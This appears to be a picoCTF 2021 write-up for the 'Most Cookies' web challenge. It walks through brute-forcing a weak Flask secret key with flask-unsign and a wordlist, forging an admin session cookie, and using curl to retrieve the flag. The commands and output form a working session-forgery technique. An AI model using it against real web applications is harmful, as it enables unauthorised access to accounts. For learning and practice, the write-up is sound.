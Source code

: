 # Most Cookies

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 150
Tags: picoCTF 2021, Web Exploitation
Author: MADSTACKS
 
Description:
Alright, enough of using my own encryption. 
Flask session cookies should be plenty secure! 

server.py 
http://mercury.picoctf.net:18835/

Hints:
1. How secure is a flask cookie?
```
Challenge link: [https://play.picoctf.org/practice/challenge/177](https://play.picoctf.org/practice/challenge/177)

## Solution
 
According to the challenge description we should expect a flask session cookie. This cookie is normally called `session`.

### Analyse the source code

Let's start by analysing the server source code
```python
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/search", methods=["GET", "POST"])
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"
		flash(message, category)
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/reset")
def reset():
	resp = make_response(redirect("/"))
	session.pop("very_auth", None)
	return resp

@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

if __name__ == "__main__":
	app.run()

```

We can see that the secret key is chosen randomly from one of the cookie names
```python
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)
```

And we want the `very_auth` value to be set to `admin` to get the flag
```python
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
```

### Create a cookie wordlist

To get the secret key we need to create a wordlist with all the cookie names.  
We use some command-line kung-fu to do this
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/Most_Cookies]
└─$ cat server.py | grep cookie_names | head -n 1 | cut -d '[' -f 2 | sed 's/", "/\n/g' | tr -d '"]'
snickerdoodle
chocolate chip
oatmeal raisin
gingersnap
shortbread
peanut butter
whoopie pie
sugar
molasses
kiss
biscotti
butter
spritz
snowball
drop
thumbprint
pinwheel
wafer
macaroon
fortune
crinkle
icebox
gingerbread
tassie
lebkuchen
macaron
black and white
white chocolate macadamia

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/Most_Cookies]
└─$ cat server.py | grep cookie_names | head -n 1 | cut -d '[' -f 2 | sed 's/", "/\n/g' | tr -d '"]' > cookies_wordlist.txt

```

### Get the secret key

We will use the [flask-unsign tool](https://pypi.org/project/flask-unsign/) to get the secret key
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/Most_Cookies]
└─$ ~/python_venvs/flask-unsign/bin/flask-unsign --unsign --server 'http://mercury.picoctf.net:18835/' --wordlist cookies_wordlist.txt
[*] Server returned HTTP 302 (FOUND)
[+] Successfully obtained session cookie: eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZSv2EQ.LJQ2BhAgtiyRAhfIe8WV6U12bmc
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'fortune'
```

So the secret key is `fortune`.

### Forge a flask session cookie

Now we can forge a flask session cookie with the value of `admin`
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/Most_Cookies]
└─$ ~/python_venvs/flask-unsign/bin/flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret fortune               
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZSv3cQ.7JuXHXOl4eRVjuxwC-TyLsKtTJk
```

### Get the flag

Finally we can use `curl` and `grep` to get the flag
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/Most_Cookies]
└─$ curl -s --cookie "session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZSv3cQ.7JuXHXOl4eRVjuxwC-TyLsKtTJk" http://mercury.picoctf.net:18835/display | grep -oE 'picoCTF{.*}'
picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [cut - Linux manual page](https://man7.org/linux/man-pages/man1/cut.1.html)
- [grep - Linux manual page](https://man7.org/linux/man-pages/man1/grep.1.html)
- [head - Linux manual page](https://man7.org/linux/man-pages/man1/head.1.html)
- [sed - Linux manual page](https://man7.org/linux/man-pages/man1/sed.1.html)
- [tr - Linux manual page](https://man7.org/linux/man-pages/man1/tr.1.html)
- [PyPI - flask-unsign](https://pypi.org/project/flask-unsign/)
- [Wikipedia - HTTP cookie](https://en.wikipedia.org/wiki/HTTP_cookie)
